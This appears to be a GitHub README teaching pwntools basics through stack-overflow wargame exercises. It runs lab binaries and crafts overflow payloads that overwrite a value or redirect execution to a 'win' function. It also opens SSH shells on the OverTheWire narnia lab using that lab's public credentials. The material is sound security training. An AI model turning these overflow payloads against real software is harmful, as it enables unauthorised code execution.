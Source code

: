# Usage

<details>
	<summary>:heavy_check_mark: Executing an Application</summary>
	<p>

![img](assets/1-app-exec.png)

- Code
```py
# importing the module
from pwn import *

# specifying the binary location
elf = ELF("./stack0")

# executing the binary
p = elf.process()
```

- Script Output
![img](assets/1-app-script.png)

</p>
</details>


<details>
	<summary>:heavy_check_mark: Providing input for the application and obtaining the output</summary>
	<p>

![img](assets/2-inop-from-app.png)

- Code
```py
from pwn import *
elf = ELF("./stack0")
p = elf.process()

# send input to the application with \r\n at the end
p.sendline(bytes("aaaaaa", 'latin-1')) # need to send in encoded format, since unicode may convert address values to some other characters. 'Latin-1' encoding is used

# recieve the output form the application until the EOF character, $ can be replaced with anything the is a part of the applications output
# p.recvuntil('$') 
# p.recvall() # recives all the output from the application, since the output will be in the format we need to decode it to obtain normal format
print(str(p.recvall(), 'utf-8'))
```

- Script Output
![img](assets/2-inop-script.png)

</p>
</details>

<details>
	<summary>:heavy_check_mark: Passing arguments to the application</summary>
	<p>

![img](assets/3-arg-pass.png)

- Code
```py
from pwn import *
elf = ELF("./stack1")

# procvide the argument in a list format, if there are multiple arguments provide like [arg1, arg2, .....argn]
p = elf.process(['ls'])

print(str(p.recvall(), 'utf-8'))
```

- Script Output
![img](assets/3-arg-pass-script.png)

	</p>
</details>

<details>
	<summary>:heavy_check_mark: Packing the address</summary>
	<p>

![img](assets/4-address-pack.png)

- Code
```py
from pwn import *
elf = ELF("./stack1")

# creating a payload which fills the buffer and writes the target address in little endian format
# there are options like p16(), p32(), p64() packing options required for 16bit, 32bit and 64bit binaries respectively
# the p32() is of bytes type so the payload / the characters which will be appeded with the target value must be in bytes format
payload = b"a"*64 + p32(0x61626364)

p = elf.process([payload])
print(str(p.recvall(),'utf-8'))

```

- Script Output
![img](assets/4-address-script.png)

</p>
</details>

<details>
<summary>:heavy_check_mark: Executing with environment variables set </summary>
<p>

![img](assets/5-env-var.png)

- Code
```py
from pwn import *
elf = ELF("./stack2")

# setting environment variable on the executing phase, environment variables takes the dict data type "env={key1:value1, key2:value2,......keyn:valuen}"
p = elf.process(env={"GREENIE":'test'})

print(str(p.recvall(), 'utf-8'))
```

- Script Output
![img](assets/5-env-script.png)

</p>
</details>

<details>
<summary>:heavy_check_mark: Finding address of a function </summary>
<p>

![img](assets/6-win-address.png)

- Completing the exercise with the found value
![img](assets/6-man-win.png)

- Code
```py
from pwn import *
# from pprint import pprint
elf = ELF("./stack3")

# display all the functions in the binary
# print(elf.symbols)
# print functions information in a pretty way
# pprint(elf.symbols)

# obtain a deciaml value of a specific funciton in the binary
win = elf.symbols['win']

# crafting payload, packing the decimal value as address
payload = b"a"*64 + p32(win)

p = elf.process()
p.sendline(payload)
print(str(p.recvall(), 'utf-8'))
```

- Script Output
![img](assets/6-win-script.png)

</p>
</details>

<details>
	<summary>:heavy_check_mark: Connecting to ssh </summary>
	<p>

![img](assets/7-ssh-conn.png)

- Code
```py
from pwn import *

# create a ssh connection with ssh() and the following parameters, by default the port varible will have the value of 22, if the ssh service is running in its default port, the port argument is not necessary to specify
session = ssh(host='narnia.labs.overthewire.org', port=2226, user='narnia0', password='narnia0')

# the ssh() connects to the machine and gives some basic infomation about the machine
```

-Script Output
![img](assets/7-ssh-script.png)
</details>

<details>
	<summary>:heavy_check_mark: Executing commands in ssh</summary>
	<p>

![img](assets/8-ssh-cmd.png)

- Code
```py
from pwn import *
session = ssh(host='narnia.labs.overthewire.org', port=2226, user='narnia0', password='narnia0')

# initialising the sh shell with the process()
shell = session.process('sh')

# sending commands to the shell
shell.sendline("whoami")

# reviving the decoding the output from the ssh connection
print(str(shell.recvline(), 'utf-8'))
```

- Script Output
![img](assets/8-ssh-cmd-script.png)
</details>

<details>
	<summary>:heavy_check_mark: Interactive Shell </summary>
	<p>

![img](assets/9-int-shell.png)

- Code
```py
from pwn import *
from pwn import *
session = ssh(host='narnia.labs.overthewire.org', port=2226, user='narnia0', password='narnia0')
shell = session.process('sh')

# instead of executing a single command, a ssh like shell will be obtained. In which command i/o is possible
shell.interactive()

```

- Script Output
![img](assets/9-int-shell-script.png)
	</p>
</details>